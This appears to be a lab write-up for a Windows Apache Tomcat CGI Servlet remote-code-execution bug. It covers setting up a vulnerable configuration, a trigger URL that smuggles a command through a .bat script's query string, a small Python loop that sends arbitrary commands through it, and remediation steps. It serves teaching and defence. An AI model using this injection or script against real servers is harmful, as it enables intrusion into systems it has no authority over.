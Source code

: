 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the conf\context.xml file on line 19, to enable privileged context:

``` html
	<Context privileged="true">
```	
1. Modify conf\web.xml to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (“cgi”):
``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
```

1.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
`cd bin
catalina run`
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:

```python3

import requests as re
base_url = raw_input("Enter url of the .bat cgi script: ")
while(True):
	command = raw_input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 
